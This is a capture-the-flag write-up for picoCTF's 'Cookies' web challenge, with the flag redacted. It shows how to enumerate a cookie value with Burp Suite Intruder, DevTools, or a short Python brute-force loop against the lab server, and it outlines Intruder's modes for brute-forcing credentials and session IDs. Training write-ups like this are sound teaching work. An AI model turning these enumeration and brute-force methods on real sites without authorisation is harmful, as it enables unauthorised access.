






# Cookies

**Platform:** picoCTF  
**Category:** Web Exploitation  
**Difficulty:** Easy  
**Tags:** `Cookies` `Burp Suite` `Burp Suite Intruder`

---

## Challenge Description

**Author:** madStacks

**Description**

Who doesn't love cookies? Try to figure out the best one.

Additional details will be available after launching your challenge instance.

---

## Reconnaissance

Navigating to the challenge URL presents a simple webpage with an input field. The clue indicates that you may have to submit different types of cookies to get the flag.

--- 



---

**Inspect cookies stored using DevTools**
Note that submitting snickerdoodle as suggested on the initial landing page changes the value of the name of the cookie to 0.



Note that submitting peant butter changes the value of the name of the cookie to 5.



This suggests that changing the value of the name of the cookie could reveal the flag.

The easiest method to use would be to run a **Burp Suite Intruder** in **Sniper mode**, incrementing the cookie value by 1 in each payload..

## Exploitation

There are three ways to solve this challenge:

### Method 1: Burp Suite Intruder in Sniper mode

1. Send the captured request to Intruder. Mark the cookie value as the payload position and configure a **Sniper** attack with a simple list payload ranging from `0` to `30`. Launch the attack.



2. Sort the results by response length. Payload **18** returns a noticeably shorter response — inspecting it reveals the flag embedded in the page.



---

### Method 2: Browser DevTools

1. Open DevTools → **Storage** tab
2. Click on the cookie for the webpage
3. Continue changing the value of the cookie name (increment by 1) and refreshing the page until the flag is revealed.



---

### Method 3: Python script (automating the Cookie Brute-Force)

The following script replicates the Intruder attack programmatically. It cycles through cookie values `0–30`, sending each as a header to the target URL, and prints the response the moment it detects `picoCTF` in the body:

```python
# Import requests library so script can send HTTP requests
import requests

target_url = 'http://mercury.picoctf.net:27177/check'

# Iterate from 0 to 30 as the value of the name of the cookie
for i in range(31):
    cookie = f'name{i}'
    headers = {'Cookie':cookie} # Create a dictionary named cookie in the header

    try:
        # For each iteration send a HTTP GET request to the target URL
        # With the custom cookie header
        # Timeout if the request took longer than 10s
        response = requests.get(target_url, headers=headers, timeout=10)

        # Check the response, if the status code is 200
        # and the response body contains the string 'picoCTF', 
        # print the cookie value and response
        if (response.status_code == 200) and ('picoCTF' in response.text):
            print(f"Found at cookie={i}")
            print(response.text)
            break # Stop the loop when the cookie is found
        
    except requests.exceptions.Timeout:
        print(f'Timeout occured for cookie={i}')

    # Catch all other requests related errors e.g. connection errors, status errors
    except requests.exceptions.RequestException as e:
        print(f'Error occurred for cookie={i}: {e}')

else:
    print("Flag not found in range 0–30.")
```


---

## Flag

```
picoCTF{3v3ry1_xxxxx_xxxxxxx_xxxxxxxx}
```
*(Flag redacted)*

---

## Key takeaways

| # | Lesson |
|---|--------|
| 1 | Burp Suite Intruder automates HTTP request manipulation by systematically trying different payloads in marked parameters |
| 2 | Common Intruder use cases include fuzzing inputs, brute-forcing values (passwords, PINs, API keys, session IDs), parameter enumeration, and injection testing (SQLi, XSS, command injection) |
| 3 | A **Sniper** attack targets one position at a time with a single payload set — ideal when only one parameter needs testing |
| 4 | **Battering Ram** applies the same payload to all marked positions simultaneously — useful when identical values are needed across multiple parameters |
| 5 | **Pitchfork** pairs multiple payload sets across multiple positions in parallel — useful when parameters are related (e.g., a known username paired with a wordlist of passwords) |
| 6 | **Cluster Bomb** tests every combination of payloads across all positions — useful for exhaustive testing such as all usernames against all passwords |
| 7 | Any parameter accepted by a web application can potentially be manipulated — systematically modifying inputs and observing server responses is a core web security technique |

---
*← [Back to Web Exploitation](../../) | [Back to picoCTF](../../../)*
